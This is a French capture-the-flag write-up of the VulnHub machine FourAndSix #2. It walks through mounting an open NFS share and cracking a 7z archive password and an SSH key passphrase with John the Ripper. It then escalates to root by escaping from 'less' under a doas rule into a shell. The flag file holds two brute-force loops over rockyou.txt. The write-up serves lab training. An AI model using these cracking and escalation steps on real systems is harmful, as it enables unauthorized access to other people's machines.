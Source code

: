 ```yaml
---
title: "Solution du CTF FourAndSix #2 de VulnHub"
tags: [CTF, VulnHub]
---
```


[FourAndSix: 2](https://vulnhub.com/entry/fourandsix-201,266/) reprend comme son prédécesseur un système OpenBSD à pénétrer.

La VM n'expose qu'un serveur SSH avec du rpcinfo/nfs/mountd :

```console
$ rpcinfo -p 192.168.56.205
   program vers proto   port  service
    100000    2   tcp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp    757  mountd
    100005    3   udp    757  mountd
    100005    1   tcp   1010  mountd
    100005    3   tcp   1010  mountd
    100003    2   udp   2049  nfs
    100003    3   udp   2049  nfs
    100003    2   tcp   2049  nfs
    100003    3   tcp   2049  nfs
$ showmount -e 192.168.56.205
Export list for 192.168.56.205:
/home/user/storage (everyone)
$ sudo mount 192.168.56.205:/home/user/storage /mnt/
[sudo] Mot de passe de root : 
Created symlink /run/systemd/system/remote-fs.target.wants/rpc-statd.service → /usr/lib/systemd/system/rpc-statd.service.
$ cd /mnt/
$ ls
backup.7z
```

Sur le partage `/home/user/storage` exposé se trouve une archive 7z qui semble contenir une clé privée SSH :

```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-10-28 10:45:33 ....A         9000        61808  hello1.jpeg
2018-10-28 10:45:33 ....A         5247               hello2.png
2018-10-28 10:45:33 ....A         8903               hello3.jpeg
2018-10-28 10:45:33 ....A         8330               hello4.png
2018-10-28 10:45:33 ....A        10038               hello5.jpeg
2018-10-28 10:45:33 ....A         5931               hello6.png
2018-10-28 10:45:33 ....A         6181               hello7.jpeg
2018-10-28 10:45:33 ....A         8182               hello8.jpeg
2018-10-28 11:50:57 ....A         1856               id_rsa
2018-10-28 11:52:57 ....A          398               id_rsa.pub
------------------- ----- ------------ ------------  ------------------------
```

Malheureusement lors de la décompression, on se voit demander un mot de passe.

Avec la version `Jumbo` de `JohnTheRipper` sont présents différents utilitaires permettant de générer un hash à partir du fichier protégé. On peut ensuite casser ce hash normalement.

Pour le format 7z on utilise `7z2john.pl`. Le cassage du mot de passe s'effectue rapidement :

```
chocolate        (backup.7z)
```

Cette fois, c'est lorsque l'on veut utiliser la clé SSH qu'une passphrase est demandée. On réitère donc la manipulation avec `ssh2john.py` puis on casse la passphrase :

```
12345678         (/tmp/id_rsa)
```

On peut alors se connecter sur le SSH et on note tout de suite qu'on est membre du groupe wheel :

```console
fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)
```

Je jette aussi un coup d'œil au fichier de configuration `doas` qui est un équivalent de `sudo` sur cet OS.

```console
fourandsix2$ cat /etc/doas.conf                                                                                                                                                                                  
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root
fourandsix2$ doas /usr/bin/less /var/log/authlog
```

On peut exécuter `less` en tant que root. Les pagers comme `less` permettent normalement de faire exécuter des commandes.

Ici ça ne fonctionnait pas alors comme pour le [CTF Bandit level 25]({% link _posts/2023-04-28-Solution-du-Wargame-Bandit-de-OverTheWire.md %}) j'ai fait charger le fichier dans `Vim` avec la touche `v` et ensuite fait exécuter un shell avec `:!sh`

```console
fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
fourandsix2# cd /root
fourandsix2# ls
.Xdefaults .cshrc     .cvsrc     .forward   .login     .profile   .ssh       flag.txt
fourandsix2# cat flag.txt                                                                                                                                                      
Nice you hacked all the passwords!

Not all tools worked well. But with some command magic...:
cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done

cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done


Here is the flag:
acd043bc3103ed3dd02eee99d5b0ff42
```
